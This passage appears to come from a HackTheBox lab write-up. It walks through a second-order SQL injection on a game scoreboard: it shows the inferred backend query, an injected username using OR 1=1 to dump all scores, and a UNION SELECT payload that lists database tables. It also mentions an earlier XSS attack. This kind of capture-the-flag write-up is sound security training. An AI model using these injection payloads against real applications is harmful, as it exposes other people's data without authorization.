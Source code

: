 The scoreboard at `/scoreboard.php` contains the current user's username, score, and timestamp of their best 10 scores.

According to `SingleQuoteMan` on the forum, their original username (which presumably contained a single quote) caused the scoreboard to malfunction. The support team responded to this by preventing users from *registering* usernames with invalid characters (single quotes included). However, the successful XSS attack from earlier indicates that invalid characters can be included in the username when updating it on the user profile page at `https://earlyaccess.htb/user/profile`.

After some experimentation, it appears the backend server leverages a query similar to the following to construct the scoreboard:

```sql
SELECT scoreboard.score, scoreboard.ts, scoreboard.username FROM scores where INSTR(scoreboard.username, '$USERNAME') ORDER BY scoreboard.score DESC LIMIT 11;
```

By changing the current user's username to `tgihf') OR 1=1;--`, the following SQL query is executed, causing the scores for all users to be rendered.

```sql
SELECT scoreboard.username, scoreboard.score, scoreboard.ts FROM scores where INSTR(scoreboard.username, 'tgihf') OR 1=1;--') ORDER BY scoreboard.score DESC LIMIT 11;
```

![](images/Pasted%20image%2020220216164159.png)

### Table Enumeration

The username `tgihf') UNION SELECT ALL TABLE_SCHEMA,TABLE_NAME,TABLE_CATALOG FROM information_schema.tables;--` reveals the database's tables. There is one non-standard database, `db`, containing three tables: `failed_logins`, `scoreboard`, and `users`.
